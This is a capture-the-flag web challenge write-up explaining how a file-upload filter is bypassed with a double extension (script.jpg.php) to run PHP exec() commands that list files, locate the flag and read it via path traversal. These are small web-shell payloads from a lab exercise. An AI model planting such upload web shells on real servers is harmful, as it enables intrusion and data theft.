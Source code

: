 # Secure File Manager
## Web

> My friend insists that his file manager is 100% secure now.
> Except its no longer a file manager, just an image manager.
> Prove him wrong again!
>
> http://128.199.77.173:13002

### Files
- N/A

### Analysis
The website has an image upload but checks for the .php extension

### Solution
1. Similar to [Superior File Manager](https://github.com/mynamegabe/May-CTF-Writeups/edit/main/Web/Superior-File-Manager),<br />
   Upload a PHP script with a .png or .jpg extension anywhere in the file name. E.g. script.jpg.php
   ```php
   <?php echo exec("ls -la"); ?>
   ```
2. View the file after uploading
   The PHP file will be executed.
3. Accessing the flag
   ```php
   <?php echo exec("locate flag.txt"); ?>
   ```
4. Getting the flag
   ```php
   <?php echo exec("cat ../../../../../flag.txt"); ?>
   ```
